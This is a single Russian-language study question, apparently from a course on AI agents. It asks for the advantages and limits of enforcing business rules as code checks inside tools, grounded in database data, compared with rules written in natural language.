9. ★★ Кодирование бизнес-правил в виде проверок внутри инструмента на основе истинных данных из базы данных, а также использование проектирования параметров, побуждающего модель сверять условия политики перед вызовом, — по сути, использование структуры кода для ограничения поведения агента. Какие преимущества и ограничения у такого паттерна «код как правило» по сравнению с правилами на естественном языке?
